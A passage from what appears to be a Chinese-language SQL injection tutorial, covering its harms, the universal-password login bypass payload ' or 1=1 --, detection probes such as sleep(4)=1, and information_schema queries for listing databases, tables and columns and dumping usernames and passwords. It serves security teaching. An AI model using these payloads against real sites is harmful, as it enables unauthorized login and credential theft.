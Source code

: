 **•** 用户能够控制输入
**•** 原本程序要执行的SQL语句，拼接了用户输入的恶意数据
## 2.3 SQL注入过程
![10](https://img-blog.csdnimg.cn/23c64683674244ab902d0e6fc777a0dd.png#pic_center)
## 2.4 SQL注入带来的危害
**• 绕过登录验证：** 使用万能密码登录网站后台等 
**• 获取敏感数据：** 获取网站管理员帐号、密码等 
**• 文件系统操作：** 列目录，读取、写入文件等 
**• 注册表操作：** 读取、写入、删除注册表等 
**• 执行系统命令：** 远程执行命令

> 通过在用户名处传入参数 `'or 1=1 -- +`进行万能密码登录

`SELECT username, password FROM users WHERE username=' textvalue' or 1 = 1 -- ' AND password='textva lue2'`
（注意：--后面有一个空格）
输入字符：
`formusr = ' or 1=1 --`
`formpwd = anything`
实际的查询代码：
`SELECT * FROM users WHERE username = '' or 1=1 -- AND password = 'anything'`

>判断一个HTTP请求是否存在SQL注入的方式

经典：`and 1=1 | and 2 > 1 | or 1 = 1 | or 1<1`
数据库函数：`sleep(4)=1 | length(user())>3`
特殊符号：单引号(`’`) 双引号(`"`)

## 2.5 前置知识
**mysql 之 information_schema 数据库** 
表结构如下：
![11](https://img-blog.csdnimg.cn/d833d9f086434da5b6cba2e0a3b011da.png#pic_center)
**“show tables;"或是直接在phpmyadmin中查看**
![12](https://img-blog.csdnimg.cn/01c39f16c37549059560f6c9c22a6d25.png#pic_center)
**需要重点关注的三张表：**
① schemata——schema_name（数据库名）
② tables——tableschema（数据库名）、tablename（表名）
③ columns——tableschema（数据库名）、tablename（表名）、column_name（列名）

**查看数据库名**
`select schema_name from information_schema.schemata;`
![13](https://img-blog.csdnimg.cn/1be8c4f637fb433b8d28f7e2672519c0.png#pic_center)
**查看表名**
`select table_name
from information schema.tables
where table_schema='security';`
![14](https://img-blog.csdnimg.cn/db00b5bb57c245cca6fe1a5fe16d4a13.png#pic_center)
**查看列名**
`select column_name
from information_schema.columns
where table_name='users' and table_schema='security';`
![15](https://img-blog.csdnimg.cn/284f0c92e5954316bb4bd0598c1272a8.png#pic_center)
**查数据**
`select username,password from security.users;`
![16](https://img-blog.csdnimg.cn/b9da09b40aea4d85ae8fa331ef637414.png#pic_center)
## 2.6 注入类型
**按照注入点类型分类**
数字型（整型）注入 